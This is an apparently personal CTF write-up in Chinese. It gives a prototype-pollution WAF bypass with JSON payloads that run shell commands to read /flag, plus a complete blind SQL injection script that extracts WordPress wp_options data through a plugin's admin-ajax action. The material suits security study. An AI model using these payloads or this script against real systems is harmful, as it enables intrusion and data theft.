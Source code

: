 https://dxh3b3fqgc3.feishu.cn/docx/HkgmdV6Fgom3P0x0iUscKxYZnLd
# web
### realrce

审计代码,发现只要url解码失效waf就会return false,
```js
function waf(input_code) {
    bypasspin = /%[0-9a-fA-F]{2}/i;
    const bypasscode = bypasspin.test(input_code);
    if (bypasscode) {
        try {
            return waf(decodeURIComponent(input_code));
        } catch (error) {
            console.error("Error decoding input: ", error);
            //漏洞产生点
            return false;
        }
    }
    const blacklist = [/__proto__/i, /constructor/i, /prototype/i];
    for (const blackword of blacklist) {
        if (blackword.test(input_code)) {
            return true;
        }
    }
    return false;
}
```
原型链污染`cmd_rce`属性

非预期执行env获取flag
```json
{"msg":{"__proto__":{"cmd_rce":"ls"},"%ff":""}}
```
本来想着绕过xxd空格,正则还没看懂,结果发现已经绕过去了
```json
{"msg":{"__proto__":{"cmd_rce":"ls;xxd`cat /flag`/flag"},"%ff":""}}
```


### EzPenetration
wordpress的渗透

安装了wpscan,在wsl上

`wpscan --url http://node4.buuoj.cn:28657/`


发现存在sql注入漏洞
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231129015952.png)

```python
    #! /bin/python
    import requests
    def main():
            session = requests.Session()

            paramsGet = {"action":"rtec_send_unregister_link"}


            result = ''
            if 'wp_option' not in __import__('os').listdir('.'):
                    __import__('os').system('touch wp_option') # 用于记录wp_options表的内容

            with open('wp_option','r') as f: # 断点重连
                    result = f.read()[0:-1]
            i = len(result)
            while True:
                    i = i + 1
                    head = 30
                    tail = 130

                    while head < tail:
                            mid = (head + tail) >> 1
                            paramsPost = {"email":"r3tr0young@gmail.com","event_id":f"3 union select 1,2,3,4,5,6,7,8,9,database() from wp_users where 0^(select(select ascii(substr(group_concat(option_name,0x7e,option_value),{i},1)) from wp_options where option_id = 16)>{mid})-- "}
                            cookies = {"wordpress_test_cookie":"WP%20Cookie%20check"}
                            response = session.post("http://127.0.0.1:8080/wp-admin/admin-ajax.php", data=paramsPost, params=paramsGet, cookies=cookies)

                            if "success" in response.text:
                                    head = mid + 1
                            else:
                                    tail = mid

                    if head != 30:
                            result += chr(head)
                            print(result)
                            with open('wp_option','w') as f:
                                    f.write(result)
                    else:
                            break
        
    def restart():
            try:
                    main()
            except:
                    restart()

    if __name__ == '__main__':
                    try:
                            main()
                    except:
                            restart()
```


# reverse

### ezpython
#pyc
pyc逆向,直接使用会报错,010打开发现需要修改文件头,提示python3.11

```python

```

# pwn

# crypto

# Misc


---
# *相关wp*




2023-11-26   05:13
